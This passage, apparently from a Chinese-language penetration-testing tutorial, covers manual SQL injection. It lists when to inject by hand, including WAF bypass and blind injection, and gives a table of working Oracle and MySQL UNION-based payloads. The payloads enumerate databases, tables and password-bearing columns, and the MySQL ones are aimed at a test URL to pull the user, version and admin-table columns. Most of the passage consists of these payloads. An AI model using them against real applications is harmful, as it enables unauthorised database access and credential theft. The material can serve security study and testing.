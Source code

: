 _PS：SQLMAP 针对Oracle注入时，使用了比较费解的SUBSTRC,好多时候得中转更改为SUBSTR._

0x04 手工注入
=====

### 4.1 应用场景

1.  快速验证（概念性证明）
2.  工具跑不出来了
    1.  的确是注入，但不出数据
    2.  特征不规律，挖掘规律，定制脚本
3.  绕过过滤
    1.  有WAF，手工注入
    2.  有过滤，搞绕过
4.  盲注类

### 4.2 常用语句

![p4](http://drops.javaweb.org/uploads/images/93c9f47f0490d94342f33866def9f523d419e441.jpg)

| 数据库 | 语句(大多需要配合编码) |
| --- | --- |
| Oracle | oder by N  
# 爆出第一个数据库名  
and 1=2 union select 1,2,(select banner from sys.v_ where rownum=1),4,5,6 from dual  
# 依次爆出所有数据库名,假设第一个库名为first_dbname  
and 1=2 union select 1,2,(select owner from all_tables where rownum=1 and owner<>'first_dbname'),4,5,6 from dual  
爆出表名  
and 1=2 union select 1,2,(select table_name from user_tables where rownum=1),4,5,6 from dual  
同理,同爆出下一个数据库类似爆出下一个表名就不说了,但是必须注意表名用大写或者表名大写的十六进制代码。  
有时候我们只想要某个数据库中含密码字段的表名,采用模糊查询语句，如下：  
and (select column_name from user_tab_columns where column_name like '%25pass%25')<0  
爆出表tablename中的第一个字段名  
and 1=2 union select 1,2,(select column_name from user_tab_columns where table_name='tablename' and rownum=1),4,5,6 from dual  
依次下一个字段名  
and 1=2 union select 1,2,(select column_name from user_tab_columns where table_name='tablename' and column_name<>'first_col_name' and rownum=1),4,5,6 from dual  
  
若为基于时间或者基于bool类型盲注，可结合substr 、ASCII进行赋值盲测。  
若屏蔽关键函数，可尝试SYS_CONTEXT('USERENV','CURRENT_USER')类用法。 |
| Mysql | #正常语句  
192.168.192.128/sqltest/news.php?id=1  
#判断存在注入否  
192.168.192.128/sqltest/news.php?id=1 and 1=2  
#确定字段数 order by  
192.168.192.128/sqltest/news.php?id=-1 order by 3  
#测试回显字段  
192.168.192.128/sqltest/news.php?id=-1 union select 1,2,3  
#测试字段内容  
192.168.192.128/sqltest/news.php?id=-1 union select 1,user(),3  
192.168.192.128/sqltest/news.php?id=-1 union select 1,group_concat(user(),0x5e5e,version(),0x5e5e,database(),0x5e5e,@@basedir),3  
#查询当前库下所有表  
192.168.192.128/sqltest/news.php?id=-1 union select 1,2,group_concat(table_name) from information_schema.tables where table_schema=database()  
#查询admin表下的字段名（16进制）  
192.168.192.128/sqltest/news.php?id=-1 union select 1,2,group_concat(column_name) from information_schema.columns where table_name=0x61646d696e  